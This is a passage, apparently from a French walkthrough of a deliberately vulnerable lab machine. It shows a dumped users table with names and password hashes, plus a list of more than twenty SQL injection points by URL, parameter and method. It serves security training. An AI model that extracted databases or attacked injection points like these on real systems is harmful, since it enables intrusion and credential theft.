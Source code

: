 ```console
| 3  | User ruby@localhost.localdomain logged into the admin site.                        |
| 4  | User charles@localhost.localdomain used recovery.  Their password rest to changeme |
| 5  | User test@test.test registered with id 114 and password test                       |
+----+------------------------------------------------------------------------------------+

Database: website
Table: users
[13 entries]
+---------+-------------------------------+-----------------+-----------------------------------+
| user_id | username                      | realname        | password                          |
+---------+-------------------------------+-----------------+-----------------------------------+
| 3       | brian@localhost.localdomain   | Brian Hershel   | e22f07b17f98e0d9d364584ced0e3c18  |
| 4       | john@localhost.localdomain    | John Durham     | 0d9ff2a4396d6939f80ffe09b1280ee1  |
| 5       | alice@localhost.localdomain   | Alice Wonder    | 2146bf95e8929874fc63d54f50f1d2e3  |
| 6       | ruby@localhost.localdomain    | Ruby Spinster   | 9f80ec37f8313728ef3e2f218c79aa23  |
| 7       | leon@localhost.localdomain    | Leon Parnetta   | 5d93ceb70e2bf5daa84ec3d0cd2c731a  |
| 8       | julia@localhost.localdomain   | Julia Fields    | ed2539fe892d2c52c42a440354e8e3d5  |
| 9       | michael@localhost.localdomain | Michael Saint   | 9c42a1346e333a770904b2a2b37fa7d3  |
| 10      | bruce@localhost.localdomain   | Bruce Pottricks | 3a24d81c2b9d0d9aaf2f10c6c9757d4e  |
| 11      | neil@localhost.localdomain    | Neil Felstein   | 4773408d5358875b3764db552a29ca61  |
| 12      | charles@localhost.localdomain | Charles Adams   | b2a97bcecbd9336b98d59d9324dae5cf  |
| 36      | foo@bar.com                   | <blank>         | 4cb9c8a8048fd02294477fcb1a41191a  |
| 113     | test@nowhere.com              | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
| 114     | test@test.test                | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
+---------+-------------------------------+-----------------+-----------------------------------+
```

En tout, plus d'une vingtaine de points d'injection ont été recensés, la liste se veut exhaustive mais une page ou un paramètre m'aura peut-être échappé. Mais comment se fait-il que les pages de l'autre site (celui accessible sur le port 8080) soient listées ici ? Grâce aux hashs de mots de passe stockés dans la table _users_ bien entendu !

```console
Injections SQL
+-----------------------------------------------+-------------------+-------------------+
| URL                                           | champ vulnérable  | méthode           |
+-----------------------------------------------+-------------------+-------------------+
| http://192.168.56.103/newsletter              | id                | GET               |
| http://192.168.56.103/profile                 | id                | GET               |
| http://192.168.56.103/recovery                | email             | POST              |
| http://192.168.56.103/register_scr            | fname             | POST              |
| http://192.168.56.103/register_scr            | lname             | POST              |
| http://192.168.56.103/register_scr            | email             | POST              |
| http://192.168.56.103/register_scr            | street            | POST              |
| http://192.168.56.103/register_scr            | city              | POST              |
| http://192.168.56.103/register_scr            | state             | POST              |
| http://192.168.56.103/register_scr            | zip               | POST              |
| http://192.168.56.103/register_scr            | phone             | POST              |
| http://192.168.56.103/register_scr            | ccn               | POST              |
| http://192.168.56.103/register_scr            | seccode           | POST              |
| http://192.168.56.103/signup_scr              | email             | POST              |
| http://192.168.56.103:8080/feedback.php       | id                | GET (op=delete)   |
| http://192.168.56.103:8080/index.php          | username          | POST              |
| http://192.168.56.103:8080/index.php          | password          | POST              |
| http://192.168.56.103:8080/newsletters.php    | id                | GET (op=edit)     |
| http://192.168.56.103:8080/newsletters.php    | id                | GET (op=delete)   |
| http://192.168.56.103:8080/readings.php       | id                | GET (op=edit)     |
| http://192.168.56.103:8080/readings.php       | id                | GET (op=delete)   |
| http://192.168.56.103:8080/reservations.php   | id                | GET (op=delete)   |
| http://192.168.56.103:8080/trainings.php      | id                | GET (op=edit)     |
| http://192.168.56.103:8080/trainings.php      | id                | GET (op=delete)   |
| http://192.168.56.103:8080/users.php          | user_id           | GET (op=edit)     |
| http://192.168.56.103:8080/users.php          | user_id           | GET (op=delete)   |
| http://192.168.56.103:8080/users.php          | username          | GET (op=new_scr)  |
```